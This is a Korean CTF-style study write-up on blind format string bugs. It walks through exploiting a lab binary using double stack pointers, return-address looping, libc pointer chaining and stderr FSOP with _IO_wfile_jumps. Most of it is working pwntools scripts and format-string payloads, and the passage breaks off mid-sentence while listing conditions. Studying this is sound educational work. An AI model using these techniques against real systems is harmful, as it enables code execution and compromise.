## 개요
이번 글은 `Rubiyalab의 포너블 스터디 주제 중` BFSB에 대해서 공부하면서 배운 것 들을 정리한 글이다.<br>
재밋게 봐주길 바란다!

## Format String Bug 기초
기본적으로 `FSB란` printf를 사용할때 포멧 스트링을 통해 변수를 출력하는것이 아닌,<br>
`변수 그대로를 인자로 넘겨 출력했으며,` 그 변수가 조작 가능할때 터지는 취약점으로,<br>
변수에 직접 포멧스트링인 `%d, %p, %n등을` 넣어서 사용자가 원하는 `포멧 스트링을 임의로 실행할수 있게 된다.`

특히 익스플로잇을 할때 `가장 많이 사용하는` 포멧스트링은 `%n,%p와 $문법이다.`<br>
`%p는` 간단히 `주소를 헥사 형태로` 출력하는 포멧 스트링으로, `주소를 릭할 때` 사용하며,<br>
`%n은` %n이 출력되기 직전 현재까지 printf를 통해<br>
`출력된 값의 길이를 저장하는` 포멧스트링으로 `값을 쓸때` 사용하며, <br>
`$문법은` 값을 참조할 때 `어떤 인자를 사용할지를` 지정하는 문법이다. 

또한 x64 아키텍처 기준으로 `포멧스트링은 인자를` 사용할때 <br>
`RSI, RDX, RCX, R8, R9순으로` 가져온후 이후부턴 `스택에서 값을 읽어오게 된다.` <br>
그리고 printf를 사용할때 `,를 통해 인자를 설정해주면` 그 인자가 각 레지스터/스택에 저장이 되며 <br>
`인자를 지정해서 출력을 할 수 있고,` 그렇게 사용하라고 만든것이지만 <br>
만약 ,를 사용하지 않고 포멧스트링만 쓰게되면 `각 인자에 해당하는 곳 중` 포멧스트링을 쓰기 직전 <br>
값들이 튀어나오게 된다. 아래는 예시 코드이다. <br>
```c
코드 : 
printf("%p %p %p %p");

출력 :
  값1       값2       값3       값4
(RSI값)   (RDX값)   (RCX값)   (R8값)
```

이제 다시 돌아와서 `$ 문법에 대해` 설명하자면<br>
`$ 문법은` 굳이 여러번의 포멧 스트링을 소비해서 원하는 인자를 출력하는 것이 아니라,<br>
즉시 `원하는 인자를 지정해서 참조하도록` 하는 문법으로<br>
포멧스트링 중간에 [인자번호]$ 를 넣어주면 된다. 아래는 예시 코드이다.<br>
```c
코드 :
printf("aaaa%5$n");

결과 :
앞에서 aaaa를 출력했으니 4를 5번째 인자에(5$) 쓰기(%n)
```

그리고 `%n을 통해` 임의의 쓰기를 사용할 땐, 특정 정수를 쓰고싶을 때,<br>
직접 `그 정수만큼 값을 손수 출력하는 것이 아닌,` 폭 문법을 사용해서 쓰게 된다.<br>
폭 문법이란 printf로 출력되는값의 길이를 지정하는 문법으로 <br>
만약 출력한 값이 지정한 값보다 작으면 공백을 추가해서 출력된 길이를 <br>
지정한 길이로 고정하게 된다.

즉, 굳이 값을 일일히 출력해서 원하는 정수를 써넣는것이 아닌, <br>
수치를 통해 정수에 값을 출력할 수 있다. <br>
(크기가 4바이트를 넘어가면 짤리니 유의하도록 하자) <br>
아래는 관련 문법이다.
```c
코드 :
printf("%2000c%6$n")

출력 결과 :
(공백2000번)

쓰기 결과 :
RSP(6번째 인자)에 0x7D0(2000)을 써넣기
```

또한 *[인자 번호]$를 통해 폭을 정적이 아닌, <br>
인자로 받아와서 출력할수 있다. 추가적으로 여기서 *를 붙히는 이유는<br>
여기서 유의해야할점은 %5$c는 r9(5번째 인자)에 값을 문자 단위로 출력하라는 것이고,<br>
%*5$c는 r9(5번째 인자)에 값만큼 폭을 지정한후 출력하라는것이다.


## Double Stack Pointer 개념
Double Stack Pointer란 스택의 주소가 다시 스택의 주소를 가르키는 이중 포인터를 뜻하며,<br>
예를들어 Libc에 존재하는 __environ 변수안 포인터도 Double Stack Pointer가 될 수 있다.<br>
(__environ 변수는 스택 주소를 가르키며, 다시 그 주소는 스택 주소를 가르킴)
```plain
__environ 시각화

__environ 변수 -> 스택안 배열 -> 스택안 문자열
```

또한 Double Stack Pointer는 가끔씩 나오는것이 아닌,<br>
왠만한 큰 바이너리라면 자주 등장하게 되는데, <br>
그 이유는 간단히 3가지가 있다.

첫번째는 지역 변수를 가르키는 지역 포인터 변수를 가르키는 지역 포인터 변수이다.<br>
간단하게, 모든 지역 변수는 스택에 저장된다. 그렇기에,<br>
스택 포인터 변수가 스택을 가르킬경우, 스택 포인터가 만들어지게 된다.<br>
이후 이 포인터 변수의 주소를 다시 지역 포인터 변수가 저장하게 되면 <br>
Double Stack Pointer가 생성되게 된다. 아래는 관련 코드이다 
```c
int main(void){
    int val = 1234;
    int *fpointer = &val // Stack Pointer 생성
    int **spointer = &fpointer // Double Stack Pointer 생성
}
```

두번째는 컴파일러가 임의로 저장한 포인터 주소이다.<br>
기본적으로, 어떤 함수를 호출할땐, 인자를 그대로 레지스터에 넣어서 사용한다.<br>
예를들어 read 함수를 사용할땐, buf의 주소를 레지스터에 넣어서 인자로 사용하게 된다.<br>
하지만, 상황에 따라 buf의 주소를 스택에 잠시 저장한후<br>
그 스택 주소를 참조해 인자를 넘기는 경우가 생기게 되는데,<br>
그때 Double Stack Pointer가 생성된다. 아래는 예시 코드이다
```c
코드:
int main(void){
    char a[10];
    read(0,a,0x10);
}

어셈블리:
(상황1)
lea rsi,[rbp-0x10]
call read

(상황2)
lea rax, [rbp-0x10]
mov [rbp-0x30], rax // 이때 더블 포인터 생성! 
mov rdi, rbp-0x30
```

세번째는 주소를 인자로 넘길때이다.<br>
특히, 주소를 인자로 넘길때, 6번째 인자를 넘어가게 되면,<br>
인자 자체를 스택에서 가져오게 되므로, Double Stack Pointer가 발생하게된다.<br>
아래는 관련 코드이다
```c
코드:
int main(void){
    int val;
    func(1,2,3,4,5,6,&val)
}
int func(int a, int b, int c, int d, int e, int f, int *ptr){

}

어셈블리:
mov rdi, 1
mov rsi, 2
mov rdx, 3
mov rcx, 4
mov r8, 5
mov r9, 6
mov rsp, val주소 // rsp에서 Double Stack Pointer 발생!
```

## DSP를 통한 임의 주소 쓰기
기본적으로 인자에 값을 지정하는 방식은 총 두가지가 있다.<br>
첫번째는 인자들을 소비해서 지정하는 방식이고,<br>
두번째는 앞에서 말했듯 $ 문법을 사용해서 지정하는 방식이다.<br>
이 두 방식은 사실상 결과로만 보면 다른것 같지만, 엄연히 보면 완전히 다르다.<br>
일단 인자를 소비하는 방식은, 포멧스트링을 하나씩 읽으면서 처리해 나가는데 반해,<br>
$방식은, $가 나오면 그 즉시 모든 인자를 캐싱한후 다시 $가 나왔을때 캐싱된것을 사용하게 된다.

그리고 앞서 말했듯 Double Stack Pointer를 사용하면 임의의 주소에 값을 쓸 수 있다.<br>
임의의 쓰기를 하는 방식은 아래와 같다.<br>
1. 첫번째 ptr을 참조해 두번째 주소를 원하는 주소로 위조<br>
2. 두번째 ptr을 참조해 원하는 주소를 원하는 값으로 위조

다시 돌아와서 위 두가지를 fsb를 딱 한번으로 수행하려면,<br>
앞에서 말했듯, $가 아닌 인자를 소비하는 방식으로 진행해야한다.<br>
왜냐하면 $를 사용하게 되면 첫번째 ptr을 참조한 그 당시의 인자 상태를<br>
캐싱하게 될것이고, 두번째 ptr을 조작하게 된다 하더라도,<br>
결국 이전의 내용이 캐싱되어, 불가능하게 된다.<br>
그에 반에 인자를 소비하는 방식은 포멧스트링을 하나씩 차근차근 해석하기에,<br>
두번째 ptr을 조작하고, 조작한 주소에 값을 쓰는것이 가능해진다.<br>
또한 추가적으로 생각해야하는것은, $의 경우는, 인자를 하나하나씩 해석하다가,<br>
$가 나오면 그 이후부터 캐싱을 시작하게 된다. 즉, $를 사용하더라도, 나중에 사용하면<br>
충분히 원하는 주소에 값을 사용할 수 있다. 아래는 예시 코드이다.
```plain
rsp+0x8이 rsp를 가르키는 Double Stack Pointer가 존재한다고 가정

(시나리오 1)
입력 : %100c%7$n%500c%6$n
ㄴ 현재 인자 상태를 캐싱 함과 동시에 rsp+0x8(7번째 인자)의
   포인터를 따라가 값을 100으로 씀
ㄴ 캐싱된걸 기준으로 rsp의 포인터를 따라가 값을 500으로 씀
   (캐싱된것은 rsp값+10이 아닌, rsp값을 따라감)

(시나리오 2)
입력 : %c%c%c%c%c%95c%n%400c%$6n
ㄴ 인자를 소비해서 7번째 인자를 가지게 하고, rsp+0x8의
   포인터를 따라가 값을 100으로 씀
ㄴ 이후엔 6번째 인자를 지정한후 rsp의 포인터를 따라가
   값을 500으로 씀, 이때 캐싱이 이루어지므로 별 의미가 없음
```

## 문제 풀이
이제 위에서 개념을 간단히 정리했으니, 스터디에서 제공해준 문제를 풀이해보도록 하자.<br>
아래는 문제 코드이다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

int vuln() {
    char payload[0x50];

    fgets(payload, 0x50, stdin);
    printf(payload);
}

int main() {
    int devnull = open("/dev/null", O_WRONLY);
    dup2(devnull, 1);
    close(devnull);

    vuln();

    return 0;
}
```

### 문제 설명
간단히 요약하면 출력을 담당하는 Stdout을 /dev/null로 바꾸고,<br>
/dev/null을 닫아버림으로써 stdout을 없에버리는걸 알 수 있었다.<br>
이후엔, vuln함수를 실행해 오직 딱 한번 입력을 받고 fsb를 일으키는걸 알 수 있다.

### 스택 디버깅
일단, 아무것도 가진 정보가 없으니, 간단하게 도커 빌드 후,<br>
gdb를 어태치해 vuln함수에 브레이크 포인터를 걸고 스택을 확인해보았다.

확인 결과 SFP에 더블 스택 포인터가 존재하는걸 볼 수 있었다.

### 루핑 시나리오 - 이론
일단 코드를 보면 오직 딱 한번의 FSB을 일으키고 프로그램을 종료하기에,<br>
할 수 있는게 굉장히 제한적이므로, 일단 Ret 주소를<br>
다시 Vuln을 Call하는 부분으로 바꿔서 계속해서 BFSB가 일어나도록 바꾸는것을<br>
첫 목표로 잡고 시작했다. 

일단 그러기 위해선, 더블 스택 포인터를 이용해야 할 것이다.<br>
왜냐하면 FSB로 값을 쓰기 위해선 %n 이라는 포멧스트링을 사용해야 하지만,<br>
그에 반해 %n은 주소를 한번 따라간 후 값을 쓰기에, 리턴 주소가 있는 인자에<br>
그대로 %n을 사용하게 되면, 그 주소를 따라가서 결국 코드 세그먼트에 값이 바뀌기 때문이다.

이를 해결하기 위해선 스택 포인터가 있는 인자에 %n을 해서 <br>
두번째 포인터에 해당하는 곳에 값이 써지게 할 수 있지만,<br>
두번째 포인터가 리턴 주소인 스택 포인터는 거의 없기에,

더블 스택 포인터가 p번째인자->A->B->C라고 가정하면<br>
p번째에 인자에 %n을 함으로써 B의 값을 리턴주소가 있는 스택 RET 주소로 바꿔서<br>
q번째인자(A)->B->RET 로 만든후<br>
다시 q번째 인자에 %n을 함으로써 RET의 값을 Vuln함수를 호출하는 부분으로<br>
바꿈으로써 루핑을 수행할 수 있을것이다.

## 루핑 시나리오 - 익스플로잇
이제 위에서 시나리오를 작성했으니, 직접 디버깅하며 익스플로잇 해보도록 하자.

일단 기본적으로 $ 문법을 사용하게 되면, 앞에서 말했듯, 캐싱을 하기에,<br>
한번의 쓰기로 순차적인 포인터 변조가 불가능하게 된다.

그래서 최소한 처음 B를 덮을땐, 인자를 소비하는 방식을 사용해야한다.<br>
일단 그러기 위해선 위에서 스택 디버깅하며 찾았던 Double Stack Pointer가<br>
몇번째 인자인지 확인해줘야하기에, 직접 확인해보면<br>
18번째 인자에 존재하는 걸 볼 수 있었다.


이제 SFP에 존재하는 Double Stack Pointer를 인자로 지정해<br>
%hhn을 씀으로써 첫번째 포인터를 타고가 두번째 포인터를 원하는 값으로 바꿀 수 있다.

일단, 현재 우리는 스택 포인터의 두번째 포인터가 RET이여야 하기에,<br>
현재 SFP의 두번째 포인터를 RET의 주소 즉, 0x7ffeccbe69d8 로 바꾸어 줘야한다.

또한 현재 SFP의 두번째 포인터는 0x7ffeccbe6a90이므로,<br>
막상 보기엔 하위 2바이트가 다른 것 처럼 보인다.<br>
그리고 하위 2바이트중 0.5바이트는 0x8로 고정이기에 (Inital RSP의 하위가 0x0이기에)<br>
16³ 의 확률 즉, 4096분의 1 확률처럼 보인다.

하지만, 간단히 두 포인터의 오프셋을 구해보면<br>
0x7ffeccbe6a90 - 0x7ffeccbe69d8 = 0xb8이고<br>
기본적으로 스택은 0.5바이트 제외 모든 바이트가 랜덤화 되며,<br>
두 포인터의 오프셋은 항상 같기에, <br>
(SFP의 두번째 포인터) + 0xb8 = (RET의 스택 주소)<br>
이므로, SFP의 하위 바이트가 0x~~d8가 아니라 <br>
0x~~~48 과 같은거라고 가정하고 0xb8을 더해 RET의 스택 주소를 구한다고 가정하면<br>
0x38 + 0xb8 = 0xf0 <br>
즉, 하위 2번째 1바이트가 바뀌지 않고도 값이 나오는걸 알 수 있다.

한마디로, 확률적으로 1바이트 제외 상위 비트가 같은 경우가 있고<br>
아닌 경우가 있는 것이다. 

다시 돌아와 이제 상위 비트가 같을수 있다는걸 알았으니,<br>
하위 1바이트중 정렬 고정부분 제외 0.5바이트만 운으로 맞추면 익스가 가능해진다.<br>
또한 이 경우는 16분의 1확률 이므로 충분히 시도해볼만한 확률이다.

또한 추가적으로 유의해야할 사항은 (RET의 스택 주소) + 0xb8을 했을때<br>
자리올림 되는 수 즉, 하위 1바이트가 0x48보다 큰 RET의 스택 주소는<br>
에초부터 1바이트 제외 상위 바이트가 다른 환경인걸 알 수 있다.


이걸 활용해 0x48 미만이고, 하위 0.5바이트가 8인(스택 정렬) 아무 값을 <br>
SFP 2번째 포인터에 써넣고 계속 시도함으로써<br>
SFP 2번째 포인터가 RET의 스택 주소를 가르키도록 익스할수 있게 된다.<br>
아래는 익스플로잇 코드이다
```python

from pwn import *

context.log_level = 'debug'

p = remote("localhost",1338)
pause()

payload = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x28}c%hhn".encode()
# write 0x38 at B

p.sendline(payload)

p.interactive()
```

이제 SFP의 두번째 포인터인 B의 값을 리턴으로 조작했으니,<br>
A인 SFP의 첫번째 포인터를 인자로 사용해 %n을 함으로써,<br>
실제 리턴 주소를 Vuln Call부분으로 바꿔줘야한다.

일단 그러기 위해선 SFP의 첫번째 포인터가 몇번째 인자인지 확인해야하므로,<br>
직접 디버깅해보면 22번째 인자인걸 알 수 있다.


또한 기본적으로 실제 RET Addr는 스택이 아닌 CS 주소이기에,<br>
Base의 하위 1.5바이트가 0x000으로써 고정이므로,<br>
모든 주소도 1.5바이트가 고정일것이다.  <br>
또한 Call 부분은 RET 바로 윗 어셈블리이기에, 1바이트만 덮어서<br>
충분히 Call부분으로 조작할 수 있다.

이제 Call부분의 하위 1바이트를 확인해보면 0x99인걸 확인할 수 있다.


이제 이를 종합해서 익스플로잇을 짜면 아래와 같다
```python
from pwn import *

context.log_level = 'debug'

p = remote("localhost",1338)
pause()

payload = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x28}c%hhn".encode()
# write 0x38 at B

payload += f"%{0x99-0x38}c%22$hhn".encode()
# write 0x99 at Ret addr
p.sendline(payload)

p.interactive()
```


## Libc 연결 시나리오 - 이론
이제 루핑을 하게 되었으니, 인자를 소비 하는 방식을 <br>
사용할 필요 없이, $만 사용해서도 충분히 여러 번 쓰기로 익스가 가능하다.

또한 현재는 Blind 환경이기에, Libc를 릭하는건 불가능하고,<br>
*$ 문법을 통해서 스택에 있는 립씨 주소를 가져다가 사용할 수 있다.

하지만 여기서 유의해야할점이 하나가 존재한다.<br>
그것은 바로 폭 문자열로 가져온 값을 Int로써 해석하기에,<br>
립씨중 하위 4바이트만 가져올수 있으며,<br>
unsigned int가 아닌, int로써 해석하기 때문에,<br>
0x80000000 이상의 폭은 그대로 음수로써 해석해버린다.

즉 상위가 립씨와 동일한 주소에 하위를 원하는것으로 덮어서,<br>
익스플로잇을 진행해야하며, 하위 4바이트가 0x80000000보다 작은 값<br>
즉, 특정 세그먼트 주소의 하위를 가져올때마다 각각 2/1 확율로써<br>
복사에 성공한다는것 또한 알 수 있다.

## Libc 연결 시나리오 - 익스플로잇
이제 이론을 모두 작성하였으니, 직접 코드를 짜보도록 하자.

일단 시도하기전, Libc주소 하나와, Libc와 상위가 같은 주소 하나를<br>
스택에서 찾아주어야한다. 물론, Libc 주소 하나만 찾아도<br>
어찌저찌 가능할수도 있지만, 결국 Libc의 원본에 값을<br>
조금 씩 추가하면서 진행하는 방식이기에, 이 방식보단<br>
복사용 립씨와 붙여넣기용 주소가 따로 있는게 더 효율적이다.<br>
이제 스택을 확인해보면 아래와 같다

확인해보면, Main의 리턴 주소 즉, Libc가 $0x17에,<br>
ld 영역의 주소인 Rtld_global 즉, Libc와 상위가 같은 주소가 $0x21에,<br>
간단히 값을 조작하기 위한 스택 포인터가 $0x19에,<br>
$0x19에 들어있는 첫번째 스택 포인터가 $0x3b에 존재하는걸 알 수 있다.

이제 간단히 $0x19에 있는 스택 포인터의 두번째 포인터를 조작해서,<br>
0x$21의 스택 주소 하위 4바이트를 써넣고,<br>
$0x19->$0x3b->$0x21->Rtld 를 만들 수 있다.<br>
(또한 여기서 $0x21의 스택 주소를 쓸때, 2/1 확률로써 성공하게 된다)

그리고 추가적으로, $12의 하위 4바이트 스택의 주소와 오프셋을 더해서<br>
Rtld를 스택 포인터에 연결하게 되는데, 이 경우 $12의 하위 4바이트를 출력 후,<br>
0x58을 더 출력해야지 rtld에 닿는걸 알 수 있다.<br>
즉, 0x99를 출력하게 되면, 오프셋이 더 많이 출력되어 문제가 생기게 되며,<br>
이를 해결하기 위해 RSP,RBP는 건들이지 않는 선에서 Vuln을 리턴할수 있는<br>
하위 바이트인 0x50으로 리턴을 덮은 후, 0x8을 추가해서 이를 해결할 수 있었다.


아래는 관련 코드이다.
```python
from pwn import *

context.log_level = 'debug' 
p = remote("localhost",1338)
pause()

# $0x12 = $22->B->C to $22->B->RET->retaddr
# $0x16 = B->RET->retaddr to B->RET->vulncall

# $0x19 = $0x3B->B to $0x3B->$0x21->rtld
# $0x3B = B to $0x21->rtld

# $0x17 = Libc_start_main+231 
# $0x21 = Rtld (Stderr)

payload = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x28}c%hhn".encode()
# write RET at B
payload += f"%{0x99-0x38}c%22$hhn".encode()
# write 0x99 at retaddr
p.sendline(payload)
pause()

payload = f"%{0x50}c%{0x16}$hhn".encode()
# write 0x50 at retaddr
payload += f"%{0x8}c%*{0x12}$c%{0x19}$n".encode()
# write rtld SS Addr at $19
p.sendline(payload)
pause()

p.interactive()
```

위 코드를 직접 디버깅하며, 32분의 1 확률을 뚫고<br>
(루핑 16/1, 스택 주소 2/1)<br>
익스에 성공하면 아래와 같이 정상적으로 익스가 되는 걸 알 수 있었다.



## Libc AAW와 FSOP 시나리오 - 이론
이제 위에서 Rtld를 연결하였으니,<br>
간단히 Libc_start_main의 하위 4바이트를 %*{}$c로,<br>
추가로 원하는 오프셋을 %c로 출력함으로써,<br>
원하는 립씨 주소를 스택에 연결 할 수 있게 된다.

또한 연결된 립씨 안 주소를 %n을 통해 덮어 쓰기도 가능하다.<br>
이제 여기서 쉘을 따는 방식은, __exit_funcs, FSOP등이 존재할것인데,<br>
복습도 할 겸 3월달에 배웠던 Glibc 2.23+ FSOP를 사용해 익스해보도록 하자.

일단 FSOP를 사용하기 위해선 간단히<br>
Stdout, Stdin, Stderr등을 덮어서 익스플로잇 할 수 있을 것이다.<br>
하지만 그 중, Stdin은 fgets가, Stdout은 printf가 사용하므로,<br>
익스를 통해 하나씩 바꾸던 중간에 프로그램이 터져버릴수 있다.<br>
그렇기에, Stderr을 덮어서 사용할 수 있을 것이다.

## Libc AAW와 FSOP 시나리오 - 익스플로잇 1 (인자 설정)
이제 이론을 정리했으니 익스플로잇 해보도록 하자.<br>
일단 익스플로잇을 하기 위해선, 아까 전 조작했던 Rtld값을<br>
Stderr 값으로 조작해주어야 한다. 그러기 위해선<br>
스택에서 가져올 Libc_start_main의 주소와 Stderr 간의 오프셋이 필요하다.<br>
이제 그 값을 찾기위해 디버깅 해보면, 0x1da316인걸 알 수 있다.


이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x1da316를 %c 문법으로 출력한후, Rtld가 있는 $0x3b에 <br>
작성함으로써, Rtld가 아닌, Stderr이 스택에 연결되도록 바꿀 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

이제 연결한후에 Stderr 주소는 flags 영역일것이고, <br>
이 영역은 나중에 인자로써 사용될것이기에, \x01\;sh를 $0x21에 써넣어서<br>
flags에 써넣음으로써 해결할 수 있다. 인자 문제를 해결 할 수 있을것이다.<br>
또한 여기서 %n은 Integer 즉, 리틀앤디언으로 들어갈것이기에,<br>
뒤집어서 아스키로 만든 0x68733b01 를 써넣음으로써 <br>
시스템 함수 인자를 설정 할 수 있다. <br>
아래는 익스플로잇 코드이다.
```python
from pwn import *

context.log_level = 'debug' 
p = remote("localhost",1338)
pause()

# $0x12 = $22->B->C to $22->B->RET->retaddr
# $0x16 = B->RET->retaddr to B->RET->vulncall

# $0x19 = $0x3B->B to $0x3B->$0x21->rtld
# $0x3B = B to $0x21->rtld

# $0x17 = Libc_start_main+231 
# $0x21 = Rtld (Stderr)

payload = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x28}c%hhn".encode()
# write RET at B
payload += f"%{0x99-0x38}c%22$hhn".encode()
# write 0x99 at retaddr
p.sendline(payload)
pause()

payload = f"%{0x50}c%{0x16}$hhn".encode()
# write 0x50 at retaddr
payload += f"%{0x8}c%*{0x12}$c%{0x19}$n".encode()
# write rtld SS Addr at $19
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da316-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr Addr at rtld
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x68733b01-0x99}c%{0x21}$n".encode()
# write sh;\x01 at flags
p.sendline(payload)
pause()
```

위 코드를 직접 디버깅하며, 64분의 1 확률을 뚫고<br>
(루핑 16/1, 스택 주소 2/1, Libc 주소 2/1)<br>
익스에 성공하면 아래와 같이 정상적으로 익스가 되는걸 알 수 있었다.


## Libc AAW와 FSOP 시나리오 - 익스플로잇 2 (OVERFLOW)
이제 인자를 설정하였으니, 간단히 FSOP의 첫번째 조건인<br>
OVERFLOW의 진입 조건 mode=0 && write_ptr > write_base를<br>
만족시켜보도록 하자 일단 기본적으로 대부분의 요소들은 0으로 되어있기에,<br>
간단히 write ptr의 값만 1 이상으로 바꿔주면 된다.<br>
기본적으로 루핑을 하려면 0x99를 무조권 출력 해야 하기에,<br>
간단히 루핑을 한 후 바로 write_ptr에 %n을 해서<br>
0x99를 덮어쓰게 하는 방식으로 가면 될듯하다. 

일단 그러기 위해선, 첫번째로 $0x3b를 조작해 Stderr을<br>
Stderr->_IO_write_ptr주소로 바꾸어줘야한다.<br>
또한 바꾸어주기 위해선 오프셋이 필요하기에, 간단히 계산을 해보면,<br>
오프셋은 0x1da33e인걸 알 수 있었다.


이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x1da33e를 %c 문법으로 출력한후, Rtld가 있는 $0x3b에 <br>
작성함으로써, Stderr가 아닌, Stderr->_IO_write_ptr이<br>
스택에 연결되도록 바꿀 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

이제 $0x21의 주소는 Stderr->write_ptr 일 것이고,<br>
어짜피 맨 앞에서 루핑을 위해 0x99를 출력할 것 이기에,<br>
이를 그대로 동일하게 $0x21에 덮어씌움으로써<br>
OVERFLOW 함수 조건을 모두 만족시킬수 있었다.<br>
아래는 익스플로잇 코드이다.
```python
from pwn import *

context.log_level = 'debug' 
p = remote("localhost",1338)
pause()

# $0x12 = $22->B->C to $22->B->RET->retaddr
# $0x16 = B->RET->retaddr to B->RET->vulncall

# $0x19 = $0x3B->B to $0x3B->$0x21->rtld
# $0x3B = B to $0x21->rtld

# $0x17 = Libc_start_main+231 
# $0x21 = Rtld (Stderr)

payload = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x28}c%hhn".encode()
# write RET at B
payload += f"%{0x99-0x38}c%22$hhn".encode()
# write 0x99 at retaddr
p.sendline(payload)
pause()

payload = f"%{0x50}c%{0x16}$hhn".encode()
# write 0x50 at retaddr
payload += f"%{0x8}c%*{0x12}$c%{0x19}$n".encode()
# write rtld SS Addr at $19
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da316-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr Addr at rtld
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x68733b01-0x99}c%{0x21}$n".encode()
# write sh;\x01 at flags
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da33e-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr to Stderr->write_ptr
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x21}$n".encode()
# write 0x99 at writeptr
p.sendline(payload)
pause()
```

위 코드를 직접 디버깅하며, 64분의 1 확률을 뚫고<br>
(루핑 16/1, 스택 주소 2/1, Libc 주소 2/1)<br>
익스에 성공하면 아래와 같이 정상적으로 익스가 되는걸 알 수 있었다.


## Libc AAW와 FSOP 시나리오 - 익스플로잇 3 (Vtable 조작)
이제 OVERFLOW 조건을 모두 만족시켰으니, Vtables에 값을 가져와서 <br>
__overflow 를 호출 할 것이다. 하지만, FSOP를 위해선 일반 Vtables이 아닌,<br>
Wide Vtables인 _IO_wfile_jumps 안 __overflow를 실행해야하기에,<br>
Vtables 영역을 _IO_wfile_jumps 주소로 바꾸어줘야한다.

일단 그러기 위해선, 첫번째로 $0x3b를 조작해 Stderr->wptr을<br>
Stderr->Vtables주소로 바꾸어줘야한다.<br>
또한 바꾸어주기 위해선 오프셋이 필요하기에, 간단히 계산을 해보면,<br>
오프셋은 0x1da3ee인걸 알 수 있었다.


이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x1da3ee를 %c 문법으로 출력한후, Stderr->wptr가 있는 $0x3b에 <br>
작성함으로써, wptr이 아닌, vtables이 스택에 연결되도록 바꿀 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

이제 $0x21의 주소는 Stderr->Vtables 일 것이고,<br>
그 안에 내용을 _IO_wfile_jumps로 바꿔야하기에,<br>
다시 Libc_start_main과의 오프셋을 확인해보면

오프셋은 0x1d805e 인 걸 알 수 있었다.

이제 Libc_start_main 하위 4바이트를 %*$c 문법으로,<br>
0x1da3ee를 %c 문법으로 출력한 후,<br>
Vtables가 있는 $0x21에 작성함으로써, 기본 점프가 아닌,<br>
_IO_wfile_jumps가 덮어지도록 할 수 있다.<br>
(여기서 *$로 Libc_start_main의 주소를 쓸때 2/1 확률로써 성공하게 된다.)

아래는 익스플로잇 코드이다
```python
from pwn import *

context.log_level = 'debug' 
p = remote("localhost",1338)
pause()

# $0x12 = $22->B->C to $22->B->RET->retaddr
# $0x16 = B->RET->retaddr to B->RET->vulncall

# $0x19 = $0x3B->B to $0x3B->$0x21->rtld
# $0x3B = B to $0x21->rtld

# $0x17 = Libc_start_main+231 
# $0x21 = Rtld (Stderr)

payload = f"%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%{0x28}c%hhn".encode()
# write RET at B
payload += f"%{0x99-0x38}c%22$hhn".encode()
# write 0x99 at retaddr
p.sendline(payload)
pause()

payload = f"%{0x50}c%{0x16}$hhn".encode()
# write 0x50 at retaddr
payload += f"%{0x8}c%*{0x12}$c%{0x19}$n".encode()
# write rtld SS Addr at $19
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da316-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr Addr at rtld
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x68733b01-0x99}c%{0x21}$n".encode()
# write sh;\x01 at flags
p.sendline(payload)
pause()

payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da33e-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr to Stderr->write_ptr
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x21}$n".encode()
# write 0x99 at writeptr
p.sendline(payload)
pause()


payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1da3ee-0x99}c%*{0x17}$c%{0x3b}$n".encode()
# write Stderr->writeptr to Stderr->vtables
p.sendline(payload)
pause()
payload = f"%{0x99}c%{0x16}$hhn".encode()
# write 0x99 at retaddr
payload += f"%{0x1d805e-0x99}c%*{0x17}$c%{0x21}$n".encode()
# write Stderr->vtables->normal to Stderr->vtables->_IO_wfile_jumps
p.sendline(payload)
pause()
```

위 코드를 직접 디버깅하며, 64분의 1 확률을 뚫고<br>
(루핑 16/1, 스택 주소 2/1, Libc 주소 2/1)<br>
익스에 성공하면 아래와 같이 정상적으로 익스가 되는 걸 알 수 있었다.


## Libc AAW와 FSOP 시나리오 - 익스플로잇 4 (DOALLOC 조건)
이제 정상적으로 Wide OVERFLOW 함수가 실행되었으면,<br>
_IO_wdoallocbuf 함수 조건을 만족시켜서 최종 FSOP 진입점으로 들어가야한다.<br>
_IO_wdoallocbuf 함수 조건은 _IO_wdoallocbuf 실행 진입점에 대한 조건인<br>
fp->_wide_data->_IO_write_base = 0,<br>
